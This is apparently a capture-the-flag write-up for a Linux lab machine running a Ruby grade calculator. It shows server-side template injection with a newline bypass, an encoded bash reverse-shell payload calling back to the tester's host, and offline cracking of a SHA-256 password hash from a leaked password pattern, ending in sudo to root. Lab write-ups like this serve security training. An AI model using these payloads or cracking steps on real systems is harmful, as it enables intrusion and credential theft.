





## Initial Enumeration

As usual we are provided by a single entry point in form of a IPv4 address(10.10.11.253) where we know that the main OS is Linux based:



Knowing this I always suggest to strart by enumerating all the running ports over the 64k ish TCP ports via Rustscan tool:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=3/4%OT=22%CT=%CU=39126%PV=Y%DS=2%DC=T%G=N%TM=65E58EC5%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

Not much but what about the first 1k UDP services as well?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nmap -sU -F 10.10.11.253          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 10:07 CET
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 73.78% done; ETC: 10:08 (0:00:15 remaining)
Stats: 0:01:02 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 93.78% done; ETC: 10:08 (0:00:04 remaining)
Nmap scan report for 10.10.11.253
Host is up (0.035s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
1433/udp open|filtered ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 96.82 seconds
```

I see I MSSQL server? Which is strange counting that this is a Linux machine and not Windows.. Anyway I will move with the enumeration of the single entry points.

* * *

## SSH

As usual SSH can't be done anything without having a valid set of credentials, as the brute force won't be a indented way in.

* * *

## HTTP

Check manually the headers via CURL shows that the webserver used is a Ruby based webrick 1.7.0:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# curl -I 10.10.11.253
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 04 Mar 2024 09:11:52 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3842
Connection: keep-alive
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
```

Googling around seems like there is a CVE that covers from version 1.8.x (let's keep it as alternative): https://www.exploit-db.com/exploits/5215

Next running a Webdirectory fuzzers shows no traces of hidden files/web folders:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://10.10.11.253/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                      
                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_10.10.11.253/__24-03-04_10-15-44.txt

Target: http://10.10.11.253/

[10:15:44] Starting:                                                                                                                                                                         
[10:15:56] 200 -    4KB - /about                                            
                                                                             
Task Completed
```

Next I will check exactly what data is sent to the backend on the grade calculator:



And we can see only a simple calculation:



Now knowing that the Webrick might be vulnerable to LFI I tried to inject some unencoded params in the Subject and seems like it get's reflected as it is, but the grade seems like getting checked?

&nbsp;

```
//Request
category1=/etc/passwd&grade1=/etc/passwd&weight1=20&category2=Inglese&grade2=9&weight2=20&category3=Tedesco&grade3=3&weight3=20&category4=Matematica&grade4=10&weight4=20&category5=N%2FA&grade5=0&weight5=20

//Response
</p>
      </form>
      Malicious input blocked
    </div>
```

But seems like more than one / or a . gives back a error no matters what. So since the names are reflected this remembers me the SSTI aka Server side template injection where is used to inject some values in the template.

So lets try to fuzz and check to identiy the backend used.. Trying with TINJA doesn't find anything:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Tools]      category1=Italiano&grade1=7&weight1=20&category2=Inglese&grade2=9&weight2=20&category3=Tedesco&grade3=3&weight3=20&category4=Matematica&grade4=10&weight4=20&category5=N%2FA&grade5=0&weight5=20"1=Italiano&grade1=7&weight1=20&category2=Inglese&grade2=9&weight2=20&category3=Tedesco&grade3=3&weight3=20&category
TInjA v1.1.2 started at 2024-03-04_10-55-49

Analyzing URL(1/1): http://10.10.11.253/weighted-grade-calc
===============================================================
Status code 200
Analyzing post parameter  grade4  =>  10
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  weight4  =>  20
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  category2  =>  Inglese
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  category3  =>  Tedesco
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  grade3  =>  3
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  grade5  =>  0
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  weight5  =>  20
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  grade1  =>  7
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  weight2  =>  20
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  category4  =>  Matematica
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  category1  =>  Italiano
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  weight1  =>  20
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  grade2  =>  9
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  weight3  =>  20
No errors are thrown and input is not being reflected.
No template engine could be detected

Analyzing post parameter  category5  =>  N%2FA
No errors are thrown and input is not being reflected.
No template engine could be detected

===============================================================

Successfully finished the scan
[+] Suspected template injections: 0
[+] 0 Very High, 0 High, 0 Medium, 0 Low, 0 Very Low certainty

Duration: 2.662368156s
Average polyglots sent per user input: 1
```

Next I could try to use SSTIMap to perform the same task:

```
└─# python3 sstimap.py -u "http://10.10.11.253/weighted-grade-calc" -d "category1=Italiano&grade1=7&weight1=20&category2=Inglese&grade2=9&weight2=20&category3=Tedesco&grade3=3&weight3=20&category4=Matematica&grade4=10&weight45=20"1=Italiano&grade1=7&weight1=20&category2=Inglese&grade2=9&weight2=20&category3=Tedesco&grade3=3&weight3=20&category4=Matematica&grade4=10&weight4

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═                                                                                                                                                             
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __                                                                                                                                        
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \                                                                                                                                       
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |                                                                                                                                      
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/                                                                                                                                       
                             │                  | |                                                                                                                                          
                                                |_|                                                                                                                                          
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
```

Here I had to check for tips and apparently the trick here is to use CRLF tags so to make the SSTI not fail..



Now knowing that the backend is Ruby this should be enought?  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby

So sending the basic 7\*7: 

```
//Request
category1=Culo%0a;<%25%3D+7*7+%25>&grade1=7&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

We get the response encoded: 


Now that we have an execution we should be able to gain a rce? 

```
//Command to execute
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvNTU1NSAwPiYx | base64 -d | bash


//Base command
<%= 7*7 %>


//RCE
<%= system('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvNTU1NSAwPiYx | base64 -d | bash
') %>


//URL encoded
%3C%25%3D%20system%28%27echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvNTU1NSAwPiYx%20%7C%20base64%20-d%20%7C%20bash%0A%27%29%20%25%3E
```



And this result in a shell baby:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 5555                                                                                                                                                                            
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.253] 53664
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ pwd
pwd
/home/susan/ruby_app
susan@perfection:~/ruby_app$ whoami
whoami
susan
susan@perfection:~/ruby_app$
```

* * *

## USER.TXT

Now we are logged in as susan, so poking around show that her user folder host the user.txt file:

```
susan@perfection:~$ cat user.txt
cat user.txt
1c3f8fdacfdcf4a2e4c0661af03772f7
susan@perfection:~$ pwd
pwd
/home/susan
susan@perfection:~$
```

* * *

## ROOT.TXT

Now inside susan home folder there is a interesting folder called "Migration" hosting a DB file:

```
susan@perfection:~/Migration$ ll
ll
total 16
drwxr-xr-x 2 root  root  4096 Oct 27 10:36 ./
drwxr-x--- 7 susan susan 4096 Feb 26 09:41 ../
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
```

And the file contains:

```
cat pupilpath_credentials.db
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

But seems like we can crack it neighter with John not Hashcat.. So I will upload both Linpeas and PSPY and check for running services.. Ufrotunately seems like the curl/wget isn't working at all.

Now here I got a tips to check for Susans email and it tells how to decode those hashes:

```
pwd
/var/mail
susan@perfection:/var/mail$ cat susan
cat susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
susan@perfection:/var/mail$
```

This is extremely helpful as it tells us that the password used isn't standard and we need to generate our payload and to do so we can use the mask_processor app from hashcat and we can create our wordlist likewise:

https://hashcat.net/wiki/doku.php?id=maskprocessor

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/maskprocessor-0.73]
└─# ./mp64.bin susan_nasus_?d?d?d?d?d?d?d?d?d > ../passwordx.txt
```

And now we can use that to crack the password:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# hashcat -m 1400 susan.hash passwordx.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i5-1235U, 2838/5741 MB (1024 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
```

And after a short time we have the password baby:

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Mon Mar  4 12:57:25 2024 (3 mins, 14 secs)
Time.Estimated...: Mon Mar  4 13:00:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwordx.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2684.5 kH/s (0.49ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 413761536/1000000000 (41.38%)
Rejected.........: 0/413761536 (0.00%)
Restore.Point....: 413755392/1000000000 (41.38%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_413755392 -> susan_nasus_413761535

Started: Mon Mar  4 12:56:21 2024
Stopped: Mon Mar  4 13:00:40 2024
```

Now these credentials show that susan is part of sudoers and have full access on the machine:

```
sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ sudo su
sudo su
root@perfection:/home/susan#
```

With this we can grab the last flag:

```
root@perfection:/home/susan# cat /root/root.txt
cat /root/root.txt
7d4660523b0dfaa50462fc5265349316
root@perfection:/home/susan#
```